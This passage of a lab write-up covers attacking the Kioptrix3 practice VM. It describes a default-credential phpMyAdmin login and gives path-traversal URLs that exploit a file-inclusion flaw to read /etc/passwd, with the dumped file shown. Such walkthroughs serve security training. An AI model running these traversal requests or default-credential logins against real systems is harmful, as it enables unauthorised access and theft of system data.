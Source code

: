   
Since there's a phpMyAdmin portal available, let's try some default username/password.  
"admin" with an empty password worked! Unfortunately, "admin" user has only access to `information_schema` and didn't reveal any credentials we can use to get a shell through SSH.
  
After poking through the site it seems to contain 2 components:  

  * **Ligoat Security blog**
  * **Gallery (Kioptrix3.com/gallery)**

Before trying out our webapp pentesting skills, it's worth noting that we found a username in the second blogpost!

```    
Welcome loneferret! and don't forget to fill in your time sheet.  
```
  
This piece of info will result in getting limited shell, follow-up here.  

#### LFI

After spending some time I wasn't able to find a file inclusion vulnerability. After I rooted the VM I found out it is indeed possible.

Doesn't work:  

```
http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd   
```    

Works:  
```
http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html  
```

Content of /etc/passwd (which confirms that loneferret exists):  

```php
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/bin/sh  
bin:x:2:2:bin:/bin:/bin/sh  
sys:x:3:3:sys:/dev:/bin/sh  
sync:x:4:65534:sync:/bin:/bin/sync  
games:x:5:60:games:/usr/games:/bin/sh  
man:x:6:12:man:/var/cache/man:/bin/sh  
lp:x:7:7:lp:/var/spool/lpd:/bin/sh  
mail:x:8:8:mail:/var/mail:/bin/sh  
news:x:9:9:news:/var/spool/news:/bin/sh  
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh  
proxy:x:13:13:proxy:/bin:/bin/sh  
www-data:x:33:33:www-data:/var/www:/bin/sh  
backup:x:34:34:backup:/var/backups:/bin/sh  
list:x:38:38:Mailing List Manager:/var/list:/bin/sh  
irc:x:39:39:ircd:/var/run/ircd:/bin/sh  
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh  
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh  
libuuid:x:100:101::/var/lib/libuuid:/bin/sh  
dhcp:x:101:102::/nonexistent:/bin/false  
syslog:x:102:103::/home/syslog:/bin/false  
klog:x:103:104::/home/klog:/bin/false  
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false  
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin  
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash  
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash  
  
Parse error: syntax error, unexpected '.', expecting T_STRING or T_VARIABLE or '$' in /home/www/kioptrix3.com/core/lib/router.php(26) : eval()'d code on line 1  
```
